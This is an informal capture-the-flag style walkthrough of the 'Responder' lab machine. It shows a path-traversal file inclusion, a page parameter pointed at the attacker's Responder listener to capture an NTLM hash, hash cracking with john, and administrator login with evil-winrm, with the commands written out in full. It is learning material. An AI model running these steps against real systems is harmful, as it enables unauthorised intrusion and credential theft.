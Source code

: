 Responder     used nmap to scan all ports and found two open http ports 80 and 5985 and an open tcpwrapped(dont what that is) 
we can also see that the server OS is windows 
since its a windows machine we are going to exploit winRM or windows remote management 

website enumeration :   when I put the ip into a web browser its redirecting to another site called http://unika.htb/  - its seems this is because of name-based Virtual Hosting - which means a single host servers multiple websites - so  based on names it will serve the website  

since its a lab and the domain wont be in any dns we need to add in the “/etc/host” file that when we go for  http://unika.htb/  the browser can directly connect to the ip so “/etc/host” is like a mini dns  

now once the website is open when I change the lang to french in the website we can see : http://unika.htb/index.php?page=french.html

and this looks like a file inclusion vulnerablity and we are able to access other files since in as pentester we will go for the etc/hosts file  by using ../ to traverse back to the base directory so we will add “?page=../../../../../../../../windows/system32/drivers/etc/hosts"

So its seems file inclusion is of two types LFI and RFI - local and remote   we are able to get the file so for “page” query params there seems to be no input validation so we conclude they might be using include() in php because it takes all the files 

now will be using Responder to get NTLM hash   we can run responder using  “sudo python3 Responder.py -I tun0” (-I to add the interface)  and when we pass in the page=//{responderip}/{something} in terminal where responder is running we get a hash and we can crack this hash using a tool called john  
“john -w=/Seclists/Passwords/Leaked-Databases/rockyou-75.txt ./Desktop/hash.txt”

now once we get the password we can connect using evil-winRm 

“evil-winrm -i 10.129.136.91 -u administrator -p [REDACTED]” 
